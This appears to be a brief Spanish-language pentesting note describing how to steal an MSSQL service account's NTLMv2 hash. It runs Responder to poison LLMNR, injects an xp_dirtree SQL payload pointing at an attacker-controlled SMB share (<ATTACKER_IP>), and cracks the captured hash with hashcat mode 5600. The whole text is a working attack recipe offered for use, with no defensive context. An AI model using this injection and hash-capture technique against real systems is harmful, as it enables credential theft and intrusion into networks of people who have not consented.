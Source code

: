### INFO
Muchos sysadmin gestionan los usuarios de los servicios con cuentas de AD. 
Estos usuarios, debido a la falta de un optimo diseño de permisos pueden ser capaces de consumir
datos/archivos de carpetas compartidas.
La jugada es aprovechar esto para hacer a este user de servicio visitar una carpeta compartida
bajo nuestro poder (sea esta existente o no).

Simplemente corremos responder para envenenar el tráfico LLMNR y enviamos la instrucción:

    ';EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;--

Debería llegarnos al responder el hash NTLM v2.

podemos crackearlo con hashcat en modo 5600
